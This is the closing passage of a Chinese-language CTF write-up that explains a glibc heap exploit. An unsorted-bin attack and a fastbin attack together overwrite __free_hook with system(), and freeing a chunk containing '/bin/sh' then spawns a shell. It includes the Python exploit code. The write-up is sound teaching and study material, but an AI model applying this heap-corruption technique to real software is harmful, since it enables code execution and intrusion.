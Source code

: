 exploit 快結束了:
```python
create(0x30) # 1, Attack unsortbin

create(0x60) # 4, Attack fastbin
create(0x60) # 5
```
- `create(0x30) # 1, Attack unsortbin`
    - 拿 unsortbin
    - 因為要求的 size 剛好跟 unsortbin 的 size 一樣，所以會做
        ```c
        unsorted_chunks(av)->bk = bck;
        bck->fd = unsorted_chunks(av);
        ```
        - 將 main_arena unsortbin 的 bk 設為 `libc.symbols['__free_hook'] - 0x70`
            - **這樣會使 unsortbin 爛掉，接下來的 exploit 若申請 memory 時動到 unsortbin，就會GG**
        - 將 `libc.symbols['__free_hook'] - 0x70 + 0x10` (因為 fd 的 offset 是 0x10) 設為 main_arena unsortbin 位址
    - 如此一來就寫了 0x7fxxxxxxxxxx 到 `libc.symbols['__free_hook'] - 0x60`
- `create(0x60) # 4, Attack fastbin` 
    - 因為 0x70 fastbin 有東東，就直接從 fastbin 拿
    - 巧妙避免因為動到 unsortbin 而 GG
    - 拿走第一個在 fastbin 的 bin 後，下一塊會拿
        `libc.symbols['__free_hook'] - 0x63`
- `create(0x60) # 5`
    - 因為前面 unsortbin attack 把 0x7fxxxxxxxx 寫到
      `libc.symbols['__free_hook'] - 0x60`
    - 所以 `libc.symbols['__free_hook'] - 0x63` 為合法的 0x70 chunk 位址
    - 我們就申請到一塊會從 `libc.symbols['__free_hook'] - 0x53` 開始寫入的 note 囉

申請到了就可以開心寫嚕
```python
# write system to __free_hook
payload = b'\0' * 0x53 + p64(libc.symbols['system'])
edit(5, payload)

edit(3, b'/bin/sh\x00')

delete(3)
```

pwned.

剩下加的 sleep 延遲是打遠端讓遠端 buffer 讀寫一下再繼續輸入

# Reference
- [CS_2019_Fall note++](https://hackmd.io/_Pu0GT_vRaywozC9KPgHzg#Note1)

###### tags: `CTF`